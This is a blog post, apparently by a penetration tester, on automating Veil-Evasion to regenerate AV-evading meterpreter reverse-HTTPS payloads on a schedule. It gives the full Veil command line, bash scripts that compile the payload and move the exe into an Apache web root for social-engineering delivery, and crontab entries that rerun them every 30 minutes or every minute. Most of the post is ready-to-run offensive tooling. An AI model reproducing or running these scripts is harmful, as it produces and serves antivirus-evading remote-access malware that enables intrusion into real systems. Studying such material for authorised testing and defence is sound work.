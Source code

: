 ```yaml
---
layout: post
title: Fresh Veil
subtitle: Automatically Generating Payloads
summary: Keep your Veil payloads fresh to avoid getting caught by AV.
featuredimage: /assets/freshveil/freshveil1.png
tags:
- veil
- payloads
---
```


Veil is awesome - it makes payload generation easy and supports a wide variety of payloads with new ones being dropped pretty often.

Getting caught by AV during a test is not awesome.

Being caught because the target’s AV had a signature hit on you is even worse. Because YOU (the tester) messed up. You didn’t take the extra few minutes to regenerate a payload. I’ve been there and I’m sure you’ve been there. It sucks and you feel silly.

The solution? Use Veil’s command line options and cron to regenerate payloads every 30 minutes. 

**Server Build**

This is the basic build. Let’s assume that you have a server that you catch social engineering payloads on. Static IP (or domain).

For setup, make a directory called `/root/payload_temp` and use git to clone Veil-Evasion into that folder. Run through the setup script in Veil-Evasion/setup. 

The `/root/payload_temp` directory is where we’ll generate the payload before we move it to our apache root.


Let’s take a look at Veil’s command line options:
![Veil's Commandline Options](/assets/freshveil/freshveil1.png)


Using these options, you can generate any payload from within Veil from the command line.


For the example code below we’ll make a `python/meterpreter/rev_https_contained` payload:

```python
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=X.X.X.X LPORT=443 --overwrite
```

The `--overwrite` is necessary here to ensure that the new payloads replace the old ones. You will of course need to replace the X.X.X.X with your WAN IP or local IP if running it within a private network.

With the Veil command figured out, create a bash script called `/payload_gen.sh` to generate the payload and move it to the apache root:

```bash
#!/bin/bash
cd /root/payload_temp
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=X.X.X.X LPORT=443 -o /root/payload_temp/FreshPayload --overwrite
sleep 1
mv -f /root/veil-output/compiled/payload.exe /var/www/FreshPayload.exe
```

Now we’ll add this to the cron:

`crontab -e` will bring up the cron settings. In the first two blank lines enter:

```bash
10 * * * * /payload_gen.sh
40 * * * * /payload_gen.sh
```


This will make the script run twice an hour at the 10 and 40 minute marks. You can heavily customize the timing options using cron, but this is a basic implementation.


That’s it. Easy, right?

Good. Moving on…

**Variable IP Auto-Generation**

Chances are, you’re in and out of networks that you’re testing and it’s no fun to find a possible vector that needs a binary and then have to go through the whole process of generating the payload before you can test.


So `payload_gen2.sh` will pull the active eth0 IPv4 address and plug it into the same script:

```bash
#!/bin/bash
ADDY=$(ifconfig eth0 | awk '/inet addr/{print $2}' | awk -F':' '{print $2}')
cd /root/payload_temp
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=$ADDY LPORT=443 --overwrite
sleep 1
mv -f /root/veil-output/compiled/payload.exe /var/www/FreshPayload.exe
```


For the crontab on this payload, I personally have it regenerate every minute so I never need to think about whether I got a new IP since it generated. Edit crontab using `crontab -e` and place the following code at the bottom:
`* * * * * /payload_gen2.sh`


You could, of course, stack multiple payloads of different types (perhaps with some additional post-processing) in this script so you get a full, fresh set of all of the many payload types that Veil can generate. All ready for you in your Apache folder.

